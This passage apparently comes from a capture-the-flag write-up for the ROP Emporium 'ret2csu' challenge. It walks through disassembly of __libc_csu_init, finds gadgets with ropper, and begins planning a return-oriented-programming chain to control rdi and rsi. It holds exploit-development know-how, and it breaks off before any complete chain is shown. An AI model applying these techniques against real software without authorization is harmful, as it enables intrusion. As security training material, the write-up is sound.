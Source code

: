 ```asm
   0x0000000000400686 <+70>:	mov    edi,r13d
   0x0000000000400689 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040068d <+77>:	add    rbx,0x1
   0x0000000000400691 <+81>:	cmp    rbp,rbx
   0x0000000000400694 <+84>:	jne    0x400680 <__libc_csu_init+64>
   0x0000000000400696 <+86>:	add    rsp,0x8
   0x000000000040069a <+90>:	pop    rbx			<---------------------------- :) (gadget 1)
   0x000000000040069b <+91>:	pop    rbp
   0x000000000040069c <+92>:	pop    r12
   0x000000000040069e <+94>:	pop    r13
   0x00000000004006a0 <+96>:	pop    r14
   0x00000000004006a2 <+98>:	pop    r15
   0x00000000004006a4 <+100>:	ret    
End of assembler dump.
gef➤  
```

Note: tools like ropper or ROPgadgets won't catch gadget 2 :(  

Hold up, we can't get a value into rdi!  
mov    edi,r13d will place a 32-bit value into edi, and we want a 64-bit value (0xdeadbeefdeadbeef) in rdi.  

Let's look for a rop gadget:

```sh
ubuntu@ubuntu:~/ropemporium/ret2csu$ ropper -f ret2csu  | grep "rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0000000000400622: add byte ptr [rax], al; add byte ptr [rdi + 1], bh; call 0x510; nop; pop rbp; ret; 
0x0000000000400624: add byte ptr [rdi + 1], bh; call 0x510; nop; pop rbp; ret; 
0x00000000004006a3: pop rdi; ret; 
```

Okay, sweet, we can now control all 3 values.


# Setting up our ROP chain
We can use gadgets 1 and 2 to get values into rdi and rsi.  
Then when we return from gadget 2, we can return to the "pop rdi" gadget (gadget 3), to get 0xdeadbeefdeadbeef into rdi.

The way that gadget2 returns is a bit unconventional.  
In particular, it will be a little tricky using this assembly instruction:

```asm
   0x0000000000400689 <+73>:	call   QWORD PTR [r12+rbx*8]
```

We can start off by making things a bit simpler and making sure that rbx has a value of 0.  
So now we just need to make sure that r12 stores an address that points to the address of our next gadget...  
Huh?
